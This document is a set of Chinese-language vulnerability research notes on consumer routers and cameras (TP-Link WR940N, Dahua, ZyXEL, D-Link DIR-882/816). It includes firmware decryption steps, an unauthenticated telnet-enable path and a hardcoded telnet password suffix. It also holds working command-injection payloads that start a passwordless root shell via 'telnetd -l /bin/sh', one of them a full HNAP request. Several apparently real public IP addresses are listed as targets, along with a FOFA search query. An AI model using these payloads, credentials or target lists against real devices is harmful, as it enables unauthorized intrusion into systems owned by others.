

# wr940n

在名为 **httpd（）** 的 init 函数中，要使程序调用 **httpRpmFs（）** 函数，请求 url 必须包含“/fs/”或“/loginFs/”。


此外，请求中的 referer ip 必须等于主机 ip 才能通过 **httpDispatcher（）** 函数中的安全检查。
- 检查当前请求的 Referer URL 是否免于验证。如果是免检，则不做进一步处理。
- 如果需要验证 Referer，则检查 `Host` 是否与 `Referer` 中的 `Host` 相匹配。
- 如果 `Host` 不匹配且请求不是来自局域网，则拒绝访问。
- 如果 `Host` 不匹配且请求来自局域网，进一步检查系统是否启用了默认的远程 Web 控制登录，如果启用了，也拒绝访问。


`httpRpmFs` 的主要功能是从指定路径中读取文件并将其作为 HTTP 响应发送给客户端。在此过程中，它执行了一系列安全检查，包括路径合法性检查、访问授权检查等，确保只有合法的请求才能访问受限路径（如 `/tmp/` 目录中的文件）。


函数sub_5299E0()通过创建指向文件路径末尾的指针来查找文件扩展名。之后，该点将向后移动，直到遇到“.”。特点。最后， sub_5299E0()将复制“.”之后的所有字符。字符一一对应，直到遇到空字节。复制的字符将变为上键并保存到堆栈中。在我们的例子中，passwd没有文件扩展名，指针向后移动，传递文件路径，到达保存的请求头区域，只有在遇到最后一个“.”时才停止。在 Referer 部分的 ip 地址中。结果，之后的所有内容都被复制到堆栈并覆盖保存的寄存器值。 sub_5299E0()完成后，这些值被弹出回寄存器并导致程序崩溃。


## 说明
没法动态调试，不能去验证其exp正确性，无法得知其基地址

# CVE-2021-33044
## exp
[mcw0/DahuaConsole: Dahua Console, access internal debug console and/or other researched functions in Dahua devices. Feel free to contribute in this project. (github.com)](https://github.com/mcw0/DahuaConsole)

175.107.203.220:25565


193.34.21.252:8888


181.57.163.166


60.244.222.120


## 说明

用此工具可以连接到ip，工具中有些命令，可以开启telnet和ssh


# CVE-2021-3297
## fofa
app="ZyXEL-NBG2105"


130.208.72.235


## 说明

该漏洞为未授权绕过，通过修改url直接访问`ip/login_ok.html`会直接绕过登录

# DIR882A1_130B06

官网下载固件为加密


再下载较早版本的固件，看看如何解密

在下载到1.10B02的时候会发现有两个bin包


看名字可以得出，其中104B02中间版本未加密，那么解密方法就要从这里面去寻找了


binwalk -Me 解压出来后进入到文件系统中，在bin/发现imgdecrypt


那么我们用其二进制程序实现解密即可


可以在二进制prog.cgi中看到其使用方法


将其运行用mipsel，成功解密


再binwalk就可以解压了


启动项中可以看到telnetd是开启的，但是telnet并连接不上去，去grep 一下telnetd


发现其在lighttpd中含有，意味着通过lighttpd可以开启telnetd，那么我们去分析一下lighttpd

根据这里我们可以看出通过路径/start_telnet就可以执行telneted -b 0.0.0.0，但也会有错误信息提示


那么我们去直接通过访问ip/start_telnet试一下


虽然响应404，但telnet 23端口的确被打开了。这里是未授权就直接可以开启它的telnet


那么我们去尝试用telnet连接它，会发现需要账户和密码


那么我去看一下会不会是什么硬编码，去分析一下telnetd二进制，它是被链接到busybox中


那么我们去逆向busybox，跟踪Login incorrect发现getpwnam该函数是根据用户名获取与该用户相关的密码数据库（通常是 `/etc/passwd` 文件）中的信息


往下追踪会发现是要对比加盐之后的密码


那么我们去看看主程序是如何把密码存放在/etc/passwd中的


那么可以发现密码是拼接了@twsz2018


那么此处的telnet密码就应该是登录密码加上@twsz2018


那么之前分析busybox时，我们发现登录成功后是走了cli


那么再去逆向一下cli，可以发现cmd_ping函数中，a2作为ping参数存在v11中，再去循环去读取ping后的参数全部存放在v11中


而systemCmd函数把a2交给popen去处理了，那么我们可以拼接命令从而达到命令执行


```sh
ping 0.0.0.0 & telnetd -l /bin/sh -p 2333 -b 0.0.0.0
```


直接通过2333端口连接是不需要密码，直接进入shell


## 说明
此漏洞为授权执行RCE开启telnetd服务，拿到shell

## 传输命令

wget tftp


# CVE-2020-28896

根据描述[IOT_vuln/d-link/dir-882/1/readme.md at main · pjqwudi/IOT_vuln](https://github.com/pjqwudi/IOT_vuln/blob/main/d-link/dir-882/1/readme.md)复现发现，此CVE可能为虚报

通过静态分析xml发包后，走到箭头所指向的位置会对ip喝mask进行检查


去库librcm.so中去寻找定义的函数，a1会经过函数tbsCheckIp函数


这里会通过正则表达式对ip进行验证



同样的道理这里也会对mask进行验证


包括这里也会对/Blink标签下面的参数进行转整型数


## poc

```xml
POST /HNAP1/ HTTP/1.1

Host: 192.168.0.1

Content-Length: 2816

Accept: */*

X-Requested-With: XMLHttpRequest

HNAP_AUTH: 7C99583FDD6A339A328E749E62F4B60F 1729243036200

SOAPAction: "http://purenetworks.com/HNAP1/SetMultipleActions"

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Content-Type: text/xml; charset=UTF-8

Origin: http://192.168.0.1

Referer: http://192.168.0.1/GuestZone.html

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: uid=Is5uHLdu

Connection: close


<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMultipleActions xmlns="http://purenetworks.com/HNAP1/"><SetWLanRadioSettings xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz_Guest</RadioID><Enabled>true</Enabled><Mode>802.11bgn</Mode><SSID>dlink-guest</SSID><SSIDBroadcast>true</SSIDBroadcast><ChannelWidth>40</ChannelWidth><Channel>0</Channel><SecondaryChannel>0</SecondaryChannel><QoS>true</QoS><ScheduleName>Always</ScheduleName><TXPower></TXPower><Coexistence>false</Coexistence><MUMIMOEnabled>true</MUMIMOEnabled><BandSteeringEnabled>true</BandSteeringEnabled><AirTimeFairnessEnabled>true</AirTimeFairnessEnabled></SetWLanRadioSettings><SetWLanRadioSecurity xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz_Guest</RadioID><Enabled>true</Enabled><Type>WPAORWPA2-PSK</Type><Encryption>TKIPORAES</Encryption><KeyRenewal>3600</KeyRenewal><RadiusIP1></RadiusIP1><RadiusPort1></RadiusPort1><RadiusSecret1></RadiusSecret1><RadiusIP2></RadiusIP2><RadiusPort2></RadiusPort2><RadiusSecret2></RadiusSecret2><Key>4ba3be92c6836e98193052bc726b79b695cabe9224b76eecdf30a5d472438bb695cabe9224b76eecdf30a5d472438bb695cabe9224b76eecdf30a5d472438bb6</Key></SetWLanRadioSecurity><SetWLanRadioSettings xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_5GHz_Guest</RadioID><Enabled>true</Enabled><Mode>802.11anac</Mode><SSID>dlink-guest</SSID><SSIDBroadcast>true</SSIDBroadcast><ChannelWidth>1</ChannelWidth><Channel>0</Channel><SecondaryChannel>0</SecondaryChannel><QoS>true</QoS><ScheduleName>Always</ScheduleName><TXPower></TXPower><Coexistence>false</Coexistence><MUMIMOEnabled>true</MUMIMOEnabled><BandSteeringEnabled>true</BandSteeringEnabled><AirTimeFairnessEnabled>true</AirTimeFairnessEnabled></SetWLanRadioSettings><SetWLanRadioSecurity xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_5GHz_Guest</RadioID><Enabled>true</Enabled><Type>WPAORWPA2-PSK</Type><Encryption>TKIPORAES</Encryption><KeyRenewal>3600</KeyRenewal><RadiusIP1></RadiusIP1><RadiusPort1></RadiusPort1><RadiusSecret1></RadiusSecret1><RadiusIP2></RadiusIP2><RadiusPort2></RadiusPort2><RadiusSecret2></RadiusSecret2><Key>8b8f1292a61a6ee16430d6daffc595a295cabe9224b76eecdf30a5d472438bb695cabe9224b76eecdf30a5d472438bb695cabe9224b76eecdf30a5d472438bb6</Key></SetWLanRadioSecurity><SetGuestZoneRouterSettings xmlns="http://purenetworks.com/HNAP1/"><InternetAccessOnly>true</InternetAccessOnly><IPAddress>
`telnetd -l /bin/sh -p 1906 -b 0.0.0.0`</IPAddress><SubnetMask></SubnetMask><DHCPServer>true</DHCPServer><DHCPRangeStart></DHCPRangeStart><DHCPRangeEnd></DHCPRangeEnd><DHCPLeaseTime>0</DHCPLeaseTime></SetGuestZoneRouterSettings></SetMultipleActions></soap:Body></soap:Envelope>
```

授权RCE


可以未授权直接访问ip/messages拿到日志文件，但日志中并不包含什么有用信息


## 说明

根据复现效果，挖到一处RCE 0day，但是需要授权，且auth是随机带时间戳

## 传输命令

wget tftp


# DIR816_A1_1.06

同样的两个版本在压缩包中，一个未加密的中间版本一个加密的版本


还是用中间版本的解密程序对加密固件解密


